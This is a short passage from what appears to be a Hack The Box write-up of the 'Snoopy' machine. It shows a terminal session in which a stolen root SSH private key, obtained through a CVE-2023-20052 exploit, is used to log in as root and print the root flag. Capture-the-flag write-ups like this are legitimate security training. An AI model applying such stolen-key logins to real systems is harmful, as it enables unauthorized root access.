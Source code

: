 ![](/assets/obsidian/2855a8428885ce50685071b7d5964821.png)

```bash
┌──(bravosec㉿fsociety)-[~/htb/Snoopy/exploit/CVE-2023-20052]
└─$ vi root.id_rsa

┌──(bravosec㉿fsociety)-[~/htb/Snoopy/exploit/CVE-2023-20052]
└─$ chmod 600 root.id_rsa

┌──(bravosec㉿fsociety)-[~/htb/Snoopy/exploit/CVE-2023-20052]
└─$ ssh -i root.id_rsa root@snoopy.htb
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.0-71-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Fri May 12 21:28:56 2023 from 10.10.14.46
root@snoopy:~# id
cauid=0(root) gid=0(root) groups=0(root)
root@snoopy:~# cat root.txt
9e0b20845f063dfd2d677e0cce412877
```
